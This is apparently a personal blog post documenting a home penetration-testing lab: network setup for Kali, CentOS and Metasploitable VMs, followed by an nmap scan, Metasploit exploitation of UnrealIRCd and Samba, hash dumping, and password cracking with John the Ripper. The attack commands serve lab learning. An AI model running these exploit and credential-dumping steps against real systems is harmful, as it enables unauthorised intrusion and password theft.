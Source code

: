 ```yaml
---
title:  "Basic Reconnaissance and Hacking"
author: Vince Jang
date: 2024-01-05 00:00:00 +0000
categories: [projects]
tags: [projects]
image: /assets/img/google.jpg
render_with_liquid: false
---
```


## Basic Reconnaissance and Hacking

In this blog post, I will complete the configuration of the remaining virtual machines (VMs) and Defender network hosts that I didn't finish discussing in the last post. Additionally, I will demonstrate the use of basic tools to exploit vulnerabilities in Defender network hosts.

## DHCP on the Attacker Router(R3)

It is normal for a small network to have dynamic IP leasing  

I used commands below to configure a DHCP pool for R3 to include a pool of addresses for the attacker network.  

ip dhcp pool < name >  
default-router < gateway address >  
domain-name < name of network >  
network < network address> < subnet mask  >  
ip dhcp excluded-address < ip address >  

And, Then I used the command 'show ip dhcp' to confirm the pool is configured correctly.  

## Configure the IP address of the two defender machines. 

I have now configured the attacker network, and it's time to set up the defender machines. Let's start by configuring the CentOS machine. Use the command 'nmtui' to configure the IP address, subnet mask, and default gateway.  

The last thing we need to configure is the Metasploitable VM. Since Metasploitable doesn't have any GUI tools like 'nmtui' in CentOS, we have to configure it by editing files and controlling services directly.  

Edit the file '/etc/network/interfaces':  

Locate the lines identifying the network card's configuration, which looks like this: 'auto eth0, iface eth0 inet dhcp'  
Change those lines to:  

auto eth0  
iface eth0 inet static  
address < IP address >  
netmask < subnet mask >  
gateway < default gateway >  
Restart the networking service with the command 'sudo /etc/init.d/networking restart'.  
Check the IP to ensure it is correctly configured. 

## Half way Testing

I am going to use ping(ICMP Protocol) to test network is connected.  

### Result

| **From** | **To** | **Protocol** | **IP Address** | **Ping Results** |
| ---- | ---- | ---- | ---- | ---- |
| Metasploitable VM | R2 Loopback (Representing Internet) | IPv4 | _8.8.8.8_ | _Yes_ |
|  | S1 VLAN | IPv4 | _192.168.1.2_ | _Yes_ |
|  | CentOS VM | IPv4 | _192.168.1.10_ | _Yes_ |
| Kali VM | R2 Loopback (Representing Internet) | IPv4 | _8.8.8.8_ | _Yes_ |
|  | Outside address of Defender Network Router | IPv4 | _200.10.1.1_ | _Yes_ |
|  | CentOS VM | IPv4 | _192.168.1.10_ | _Yes_ |
|  | Matasploitable VM | IPv4 | _192.168.1.11_ | _yes_ |
| CentOS VM <br><br> | R2 Loopback (Representing Internet) | IPv4 | _8.8.8.8_ | _Yes_ |
|  | Outside address of Attacker Network Router | IPv4 | _200.10.1.1_ | _yes_ |

## Reconnaissance

Use the Kali machine to discover information and footprint the defender network.

1. Use the 'nmap' command to scan for all open port and services on the defender's machine. 'nmap -T4 -A 192.168.1.0/24'
![images](/assets/img/Picture2.png)
We can observe several open ports in the network, providing entry points to initiate penetration.

## Exploitation
Now we have lots of information regarding the target machines, including a list of services, versions and a list of users on the system. let's begin a penetration test using some of this information with the Metasploit framework.
1. Open Metasploit on Kali Machine
2. after researching, I identified the service "UnrealIRCd" and "IRC" service is vulnerable to the 3281 backdoor.
3. We need to know what module we want to use. 'searchsploit' is the command you can find a module that you want to use.
4. load the associated module for this backdoor with 'use exploit/unix/irc/unreal_ircd_3281_backdoor'
5. Set the target of the attack using 'set RHOST< targetIPaddress >' 
![images](/assets/img/Picture3.png)
6. Begin attack with 'exploit'
7. Once the attack has succeeded, We should have completed root access to the machine, to check this use some command such as 'date, whoami, hostname'  
### Result
![images](/assets/img/Picture4.1.png)
![images](/assets/img/Picture4.2.png)

Now, we can even type 'reboot' to restart the target PC! This is Crazy..., as it implies that if a hacker successfully compromises your network, they can employ various techniques to infiltrate other machines within your network, such as remote PowerShell, SMIC, PSExec, scheduled tasks, etc.

## Exploitation 2

Samba(software used to make SMB(server message block)) version 3.0.20 through to 3.0.25rc3 had a vulnerability allowing attackers to excute arbitary commands by using script containing shell meta chracters at login. and I found out Metasploit has a framework containing these scripts for us to use!  

1. Open Kali, try to make a connection to the server as an anonymous user using the SMB protocol with 'smbmap -H targetIPaddress'
2. it present with a list of enumerated shares and usernames readable to anonymous users, this include the tmp share which is also writable!
3. Now open Metasploit 'msfconsole' 
4. Use commands 'use exploit/multi/samba/usermap_script' , 'set RHOST targetIPaddress','exploit'
5. After exploit has worked, use the command 'id'. we now see we are root user on the system
6. now we are going to taking advantage of the open session to the other machine.
7. Switch metasploit modules to prebuilt password hash dumping module using:  
'use post/linux/gather/hashdump'  
'set SESSION 1'  
'exploit'
8. This should give me a full dump of the encrypted passwords, we can see this "/home/kali/.msf4/loot/192.168.76.128_linux.hashes_598149.txt"
9. now we will use John the Ripper to crack this hashed password. [what is John the Ripper](https://www.openwall.com/john/)
10.  Use the command 'sudo john passwordFileName' to start a brute force attack on the password list. ex: 'sudo john /home/kali/.msf4/loot/192.168.76.128_linux.hashes_598149.txt.'
11. Here We go. now John the Ripper break at least some of the password
![images](/assets/img/Picture5.png)




